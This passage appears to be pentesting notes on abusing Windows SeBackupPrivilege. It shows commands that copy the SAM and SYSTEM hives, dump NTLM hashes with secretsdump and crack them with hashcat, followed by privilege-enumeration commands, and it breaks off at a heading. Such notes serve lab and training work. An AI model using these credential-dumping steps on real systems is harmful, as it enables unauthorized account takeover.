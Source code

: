 If REG SAVE doesn’t work, try this alternative:
```
copy /b C:\Windows\System32\config\sam C:\Temp\sam.alt copy /b C:\Windows\System32\config\system C:\Temp\system.alt
```

If you want to back up **all** files in the directory:
``robocopy /b "C:\Users\enterpriseadmin\Desktop" "C:\Temp" /e``

#### Transfer these file with web server or with SCP
The hashes will be extracted with the above shown step with `impacket-secretsdump`
Then crack it with hashcat 
``hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --force``



🔹 **Understanding SeBackupPrivilege "Disabled" but Still Working**
When a privilege is listed as **Disabled**, it **does not mean you cannot use it**—it just means it is **not currently enabled for use in your process**. However, if your user account **has the right to enable it**, Windows allows certain functions (like backup APIs) to use it without explicitly enabling it.

**🔹 How Does It Still Work?**

1️⃣ **SeBackupPrivilege is assigned to your user**

- Even though it shows **Disabled**, it is still assigned to your user account.

2️⃣ **Backup APIs Automatically Enable It**

- When you run commands like:
	`reg save hklm\sam C:\Temp\sam.save`
	The **Registry Backup API** automatically enables the privilege for that operation.
	
**🔹 Key Takeaway**

- "Disabled" in `whoami /priv` **does not** mean you cannot use it.
- Windows **automatically enables it** when you perform backup-related operations.
- Some tools and APIs **require manual enabling**, but `reg save`, `robocopy`, and `BackupRead` **do not**.
- **"Disabled"** means the key is in your pocket, but you can still use it when needed.

All the commands that are use full in this kind of situation.

Check privileges
`whoami /priv`
`(Get-TokenInformation (Get-Process -Id $PID).Handle -TokenPrivileges).Privileges`

Check groups
`whoami /groups`
`net localgroup Administrators`
`Get-LocalGroupMember Administrators`

Check privileges of another user
`whoami /user /fo list`
`Get-LocalUser -Name <username> | Select-Object *`

Some of the sensitive files that are useful
### **Standalone Machine (Non-Domain)**
